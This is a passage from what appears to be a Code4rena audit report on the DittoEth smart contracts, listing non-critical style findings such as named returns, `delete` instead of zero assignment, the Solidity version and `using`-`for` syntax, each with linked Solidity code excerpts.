BidOrdersFacet.sol ([40-47](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L40-L47), [65-68](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L65-L68), [77-85](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L77-L85), [130-135](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L130-L135), [275-280](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L275-L280), [340-340](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L340-L340)):

```solidity
/// @audit ethFilled
/// @audit ercAmountLeft
40:     function createBid(
41:         address asset,
42:         uint80 price,
43:         uint88 ercAmount,
44:         bool isMarketOrder,
45:         MTypes.OrderHint[] calldata orderHintArray,
46:         uint16[] calldata shortHintArray
47:     ) external isNotFrozen(asset) onlyValidAsset(asset) nonReentrant returns (uint88 ethFilled, uint88 ercAmountLeft) {

/// @audit ethFilled
/// @audit ercAmountLeft
65:     function createForcedBid(address sender, address asset, uint80 price, uint88 ercAmount, uint16[] calldata shortHintArray)
66:         external
67:         onlyDiamond
68:         returns (uint88 ethFilled, uint88 ercAmountLeft)

/// @audit ethFilled
/// @audit ercAmountLeft
77:     function _createBid(
78:         address sender,
79:         address asset,
80:         uint80 price,
81:         uint88 ercAmount,
82:         bool isMarketOrder,
83:         MTypes.OrderHint[] memory orderHintArray,
84:         uint16[] memory shortHintArray
85:     ) private returns (uint88 ethFilled, uint88 ercAmountLeft) {

/// @audit ethFilled
/// @audit ercAmountLeft
130:     function bidMatchAlgo(
131:         address asset,
132:         STypes.Order memory incomingBid,
133:         MTypes.OrderHint[] memory orderHintArray,
134:         MTypes.BidMatchAlgo memory b
135:     ) private returns (uint88 ethFilled, uint88 ercAmountLeft) {

/// @audit ethFilled
/// @audit ercAmountLeft
275:     function matchIncomingBid(
276:         address asset,
277:         STypes.Order memory incomingBid,
278:         MTypes.Match memory matchTotal,
279:         MTypes.BidMatchAlgo memory b
280:     ) private returns (uint88 ethFilled, uint88 ercAmountLeft) {

/// @audit lowestSell
340:     function _getLowestSell(address asset, MTypes.BidMatchAlgo memory b) private view returns (STypes.Order memory lowestSell) {
```

ExitShortFacet.sol ([213-213](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L213-L213)):

```solidity
/// @audit cRatio
213:     function getCollateralRatioNonPrice(STypes.ShortRecord storage short) internal view returns (uint256 cRatio) {
```

RedemptionFacet.sol ([382-384](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L382-L384)):

```solidity
/// @audit redemptionFee
382:     function calculateRedemptionFee(address asset, uint88 colRedeemed, uint88 ercDebtRedeemed)
383:         internal
384:         returns (uint88 redemptionFee)
```

LibBridgeRouter.sol ([113-113](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L113-L113)):

```solidity
/// @audit fee
113:     function withdrawalFeePct(uint256 bridgePointer, address rethBridge, address stethBridge) internal view returns (uint256 fee) {
```

LibOracle.sol ([69-75](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L69-L75), [131-131](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L131-L131), [156-156](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L156-L156), [162-162](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L162-L162)):

```solidity
/// @audit _protocolPrice
69:     function baseOracleCircuitBreaker(
70:         uint256 protocolPrice,
71:         uint80 roundId,
72:         int256 chainlinkPrice,
73:         uint256 timeStamp,
74:         uint256 chainlinkPriceInEth
75:     ) private view returns (uint256 _protocolPrice) {

/// @audit twapPriceInEth
131:     function twapCircuitBreaker() private view returns (uint256 twapPriceInEth) {

/// @audit creationTime
156:     function getTime(address asset) internal view returns (uint256 creationTime) {

/// @audit oraclePrice
162:     function getPrice(address asset) internal view returns (uint80 oraclePrice) {
```

LibOrders.sol ([30-30](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L30-L30), [231-234](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L231-L234), [260-266](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L260-L266), [402-409](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L402-L409), [420-420](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L420-L420), [440-447](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L440-L447), [826-830](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L826-L830)):

```solidity
/// @audit timeInSeconds
30:     function getOffsetTime() internal view returns (uint32 timeInSeconds) {

/// @audit direction
231:     function verifyBidId(address asset, uint16 _prevId, uint256 _newPrice, uint16 _nextId)
232:         internal
233:         view
234:         returns (int256 direction)

/// @audit direction
260:     function verifySellId(
261:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
262:         address asset,
263:         uint16 _prevId,
264:         uint256 _newPrice,
265:         uint16 _nextId
266:     ) private view returns (int256 direction) {

/// @audit direction
402:     function verifyId(
403:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
404:         address asset,
405:         uint16 prevId,
406:         uint256 newPrice,
407:         uint16 nextId,
408:         O orderType
409:     ) internal view returns (int256 direction) {

/// @audit newO
420:     function normalizeOrderType(O o) private pure returns (O newO) {

/// @audit _hintId
440:     function getOrderId(
441:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
442:         address asset,
443:         int256 direction,
444:         uint16 hintId,
445:         uint256 _newPrice,
446:         O orderType
447:     ) internal view returns (uint16 _hintId) {

/// @audit hintId
826:     function findOrderHintId(
827:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
828:         address asset,
829:         MTypes.OrderHint[] memory orderHintArray
830:     ) internal view returns (uint16 hintId) {
```

LibSRUtil.sol ([49-51](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L49-L51), [102-105](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L102-L105)):

```solidity
/// @audit isCancelled
49:     function checkCancelShortOrder(address asset, SR initialStatus, uint16 shortOrderId, uint8 shortRecordId, address shorter)
50:         internal
51:         returns (bool isCancelled)

/// @audit recoveryViolation
102:     function checkRecoveryModeViolation(address asset, uint256 shortRecordCR, uint256 oraclePrice)
103:         internal
104:         view
105:         returns (bool recoveryViolation)
```

</details>

## [43] Consider using `delete` rather than assigning zero to clear values

<details>

The `delete` keyword more closely matches the semantics of what is being done, and draws more attention to the changing of state, which may lead to a more thorough audit of its associated logic.

BidOrdersFacet.sol ([158-158](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L158-L158), [191-191](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L191-L191), [194-194](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L194-L194)):

```solidity
158:                     lowestSell.ercAmount = 0;

191:                             b.dustShortId = b.dustAskId = 0;

194:                     incomingBid.ercAmount = 0;
```

LibBridgeRouter.sol ([56-56](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L56-L56), [69-69](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L69-L69), [86-86](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L86-L86), [99-99](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L99-L99), [167-167](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L167-L167), [176-176](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L176-L176), [188-188](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L188-L188), [189-189](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L189-L189)):

```solidity
56:             VaultUser.bridgeCreditReth = 0;

69:                         VaultUser.bridgeCreditSteth = 0;

86:             VaultUser.bridgeCreditSteth = 0;

99:                         VaultUser.bridgeCreditReth = 0;

167:                     VaultUserFrom.bridgeCreditReth = 0;

176:                     VaultUserFrom.bridgeCreditSteth = 0;

188:                     VaultUserFrom.bridgeCreditReth = 0;

189:                     VaultUserFrom.bridgeCreditSteth = 0;
```

LibOrders.sol ([578-578](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L578-L578), [585-585](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L585-L585), [612-612](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L612-L612)):

```solidity
578:                     incomingAsk.ercAmount = 0;

585:                     highestBid.ercAmount = 0;

612:                     incomingAsk.ercAmount = 0;
```

LibSRUtil.sol ([138-138](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L138-L138), [148-148](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L148-L148)):

```solidity
138:         short.tokenId = 0;

148:         nft.shortOrderId = 0;
```

UniswapOracleLibrary.sol ([56-56](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L56-L56)):

```solidity
56:         secondsAgos[1] = 0;
```

</details>

## [44] Use the latest Solidity version

<details>

Upgrading to the [latest solidity version](https://github.com/ethereum/solc-js/tags) (0.8.19 for L2s) can optimize gas usage, take advantage of new features and improve overall contract efficiency. Where possible, based on compatibility requirements, it is recommended to use newer/latest solidity version to take advantage of the latest optimizations and features.

BidOrdersFacet.sol ([2](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L2)):

```solidity
2: pragma solidity 0.8.21;
```

BridgeRouterFacet.sol ([2](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L2)):

```solidity
2: pragma solidity 0.8.21;
```

ExitShortFacet.sol ([2](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L2)):

```solidity
2: pragma solidity 0.8.21;
```

PrimaryLiquidationFacet.sol ([2](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L2)):

```solidity
2: pragma solidity 0.8.21;
```

RedemptionFacet.sol ([2](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L2)):

```solidity
2: pragma solidity 0.8.21;
```

ShortOrdersFacet.sol ([2](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L2)):

```solidity
2: pragma solidity 0.8.21;
```

LibBridgeRouter.sol ([2](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L2)):

```solidity
2: pragma solidity 0.8.21;
```

LibBytes.sol ([2](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBytes.sol#L2)):

```solidity
2: pragma solidity 0.8.21;
```

LibOracle.sol ([2](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L2)):

```solidity
2: pragma solidity 0.8.21;
```

LibOrders.sol ([2](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L2)):

```solidity
2: pragma solidity 0.8.21;
```

LibSRUtil.sol ([2](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L2)):

```solidity
2: pragma solidity 0.8.21;
```

UniswapOracleLibrary.sol ([2](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L2)):

```solidity
2: pragma solidity 0.8.21;
```

</details>

## [45] Consider using named function arguments

<details>

When calling functions with multiple arguments, consider using [named function parameters](https://docs.soliditylang.org/en/latest/control-structures.html#function-calls-with-named-parameters), rather than positional ones.

ExitShortFacet.sol ([187-187](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L187-L187)):

```solidity
187:             IDiamond(payable(address(this))).createForcedBid(msg.sender, e.asset, price, e.buybackAmount, shortHintArray);
```

PrimaryLiquidationFacet.sol ([188-188](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L188-L188)):

```solidity
188:             IDiamond(payable(address(this))).createForcedBid(address(this), m.asset, _bidPrice, m.short.ercDebt, shortHintArray);
```

</details>

## [46] Named returns are recommended

<details>

Using named returns makes the code more self-documenting, makes it easier to fill out NatSpec, and in some cases can save gas. The cases below are where there currently is at most one return statement, which is ideal for named returns.

There are 17 instances:

BridgeRouterFacet.sol ([40-40](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L40-L40), [51-51](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L51-L51), [169-169](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L169-L169)):

```solidity
40:     function getDethTotal(uint256 vault) external view nonReentrantView returns (uint256) {

51:     function getBridges(uint256 vault) external view returns (address[] memory) {

169:     function _ethConversion(uint256 vault, uint88 amount) private view returns (uint88) {
```

PrimaryLiquidationFacet.sol ([47-52](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L47-L52), [122-124](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L122-L124), [229-229](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L229-L229)):

```solidity
47:     function liquidate(address asset, address shorter, uint8 id, uint16[] memory shortHintArray, uint16 shortOrderId)
48:         external
49:         isNotFrozen(asset)
50:         nonReentrant
51:         onlyValidShortRecord(asset, shorter, id)
52:         returns (uint88, uint88)

122:     function _setLiquidationStruct(address asset, address shorter, uint8 id, uint16 shortOrderId)
123:         private
124:         returns (MTypes.PrimaryLiquidation memory)

229:     function min88(uint256 a, uint88 b) private pure returns (uint88) {
```

RedemptionFacet.sol ([31-34](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L31-L34)):

```solidity
31:     function validRedemptionSR(STypes.ShortRecord storage shortRecord, address proposer, address shorter, uint256 minShortErc)
32:         internal
33:         view
34:         returns (bool)
```

LibBridgeRouter.sol ([39-41](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L39-L41)):

```solidity
39:     function assessDeth(uint256 vault, uint256 bridgePointer, uint88 amount, address rethBridge, address stethBridge)
40:         internal
41:         returns (uint88)
```

LibBytes.sol ([11-11](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBytes.sol#L11-L11)):

```solidity
11:     function readProposalData(address SSTORE2Pointer, uint8 slateLength) internal view returns (MTypes.ProposalData[] memory) {
```

LibOracle.sol ([19-19](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L19-L19), [168-168](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L168-L168)):

```solidity
19:     function getOraclePrice(address asset) internal view returns (uint256) {

168:     function getSavedOrSpotOraclePrice(address asset) internal view returns (uint256) {
```

LibOrders.sol ([35-35](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L35-L35), [55-58](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L55-L58), [78-78](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L78-L78), [362-367](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L362-L367), [985-985](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L985-L985), [989-989](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L989-L989)):

```solidity
35:     function convertCR(uint16 cr) internal pure returns (uint256) {

55:     function currentOrders(mapping(address => mapping(uint16 => STypes.Order)) storage orders, address asset)
56:         internal
57:         view
58:         returns (STypes.Order[] memory)

78:     function isShort(STypes.Order memory order) internal pure returns (bool) {

362:     function findPrevOfIncomingId(
363:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
364:         address asset,
365:         STypes.Order memory incomingOrder,
366:         uint16 hintId
367:     ) internal view returns (uint16) {

985:     function min(uint256 a, uint256 b) internal pure returns (uint256) {

989:     function max(uint256 a, uint256 b) internal pure returns (uint256) {
```

</details>

## [47] Consider using the `using`-`for` syntax

<details>

The `using`-`for` [syntax](https://docs.soliditylang.org/en/latest/contracts.html#using-for) is the more common way of calling library functions.

There are 197 instances:

BidOrdersFacet.sol ([48-48](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L48-L48), [87-87](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L87-L87), [87-87](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L87-L87), [90-90](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L90-L90), [98-98](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L98-L98), [108-108](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L108-L108), [108-108](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L108-L108), [110-110](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L110-L110), [114-114](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L114-L114), [136-136](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L136-L136), [143-143](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L143-L143), [162-162](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L162-L162), [166-166](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L166-L166), [174-174](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L174-L174), [177-177](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L177-L177), [190-190](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L190-L190), [199-199](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L199-L199), [226-226](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L226-L226), [227-227](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L227-L227), [243-252](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L243-L252), [288-288](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L288-L288), [332-332](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L332-L332), [335-335](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L335-L335)):

```solidity
48:         LibOrders.updateOracleAndStartingShortViaTimeBidOnly(asset, shortHintArray);

87:         if (eth < LibAsset.minBidEth(asset)) revert Errors.OrderUnderMinimumSize();

87:         if (eth < LibAsset.minBidEth(asset)) revert Errors.OrderUnderMinimumSize();

90:         if (s.vaultUser[Asset.vault][sender].ethEscrowed < eth) revert Errors.InsufficientETHEscrowed();

98:         incomingBid.creationTime = LibOrders.getOffsetTime();

108:             LibOrders.updateOracleAndStartingShortViaThreshold(asset, LibOracle.getPrice(asset), incomingBid, shortHintArray);

108:             LibOrders.updateOracleAndStartingShortViaThreshold(asset, LibOracle.getPrice(asset), incomingBid, shortHintArray);

110:             b.oraclePrice = LibOracle.getPrice(asset);

114:             LibOrders.addBid(asset, incomingBid, orderHintArray);

136:         uint256 minBidEth = LibAsset.minBidEth(asset);

143:                     LibOrders.addBid(asset, incomingBid, orderHintArray);

162:                         LibOrders.matchOrder(s.shorts, asset, lowestSell.id);

166:                         LibOrders.matchOrder(s.asks, asset, lowestSell.id);

174:                             LibOrders.matchOrder(s.shorts, asset, lowestSell.id);

177:                             LibOrders.matchOrder(s.asks, asset, lowestSell.id);

190:                         if (lowestSell.ercAmount.mul(lowestSell.price) >= LibAsset.minAskEth(asset).mul(C.DUST_FACTOR)) {

199:                     LibOrders.addBid(asset, incomingBid, orderHintArray);

226:             uint88 colUsed = fillEth.mulU88(LibOrders.convertCR(lowestSell.shortOrderCR));

227:             LibOrders.increaseSharesOnMatch(asset, lowestSell, matchTotal, colUsed);

243:             LibShortRecord.fillShortRecord(
244:                 asset,
245:                 lowestSell.addr,
246:                 lowestSell.shortRecordId,
247:                 status,
248:                 shortFillEth,
249:                 fillErc,
250:                 matchTotal.ercDebtRate,
251:                 matchTotal.dethYieldRate
252:             );

288:         LibOrders.updateSellOrdersOnMatch(asset, b);

332:         emit Events.MatchOrder(asset, bidder, incomingBid.orderType, incomingBid.id, matchTotal.fillEth, matchTotal.fillErc);

335:         LibOrders.handlePriceDiscount(asset, matchTotal.lastMatchPrice);
```

BridgeRouterFacet.sol ([64-64](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L64-L64), [72-72](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L72-L72), [83-83](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L83-L83), [90-90](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L90-L90), [102-102](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L102-L102), [110-110](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L110-L110), [122-122](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L122-L122), [134-134](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L134-L134), [143-143](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L143-L143), [164-164](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L164-L164)):

```solidity
64:         if (amount < C.MIN_DEPOSIT) revert Errors.UnderMinimumDeposit();

72:         emit Events.Deposit(bridge, msg.sender, dethAmount);

83:         if (msg.value < C.MIN_DEPOSIT) revert Errors.UnderMinimumDeposit();

90:         emit Events.DepositEth(bridge, msg.sender, dethAmount);

102:         if (dethAmount == 0) revert Errors.ParameterIsZero();

